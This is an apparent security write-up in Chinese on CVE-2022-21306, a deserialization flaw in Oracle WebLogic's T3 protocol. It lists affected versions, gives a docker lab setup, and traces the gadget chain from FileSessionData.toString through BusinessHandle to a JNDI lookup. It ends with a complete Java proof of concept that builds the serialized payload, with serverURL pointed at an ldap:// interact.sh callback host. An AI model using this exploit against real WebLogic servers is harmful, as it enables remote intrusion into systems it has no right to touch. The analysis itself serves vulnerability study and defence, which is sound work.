





# CVE-2022-21306 反序列化漏洞
- [CVE-2022-21306 反序列化漏洞](#cve-2022-21306-反序列化漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [FileSessionData](#filesessiondata)
    - [AttributeWrapperUtils](#attributewrapperutils)
    - [JNDI](#jndi)
    - [poc](#poc)

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0   
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.

在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.

其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	

来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.

### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.


最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```